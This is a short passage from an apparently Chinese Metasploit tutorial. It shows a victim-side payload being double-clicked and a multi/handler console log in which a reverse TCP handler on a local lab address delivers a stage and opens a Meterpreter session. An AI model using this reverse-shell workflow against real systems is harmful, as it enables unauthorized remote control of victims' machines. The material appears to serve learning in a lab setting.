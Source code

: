 ![1701948392753](image/msf工具的简单利用/1701948392753.png)

双击运行

```shell
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.43.155:4444 
[*] Sending stage (200774 bytes) to 192.168.43.63
[*] Meterpreter session 1 opened (192.168.43.155:4444 -> 192.168.43.63:49281) at 2023-12-07 19:29:45 +0800

meterpreter > 
```

连接建立
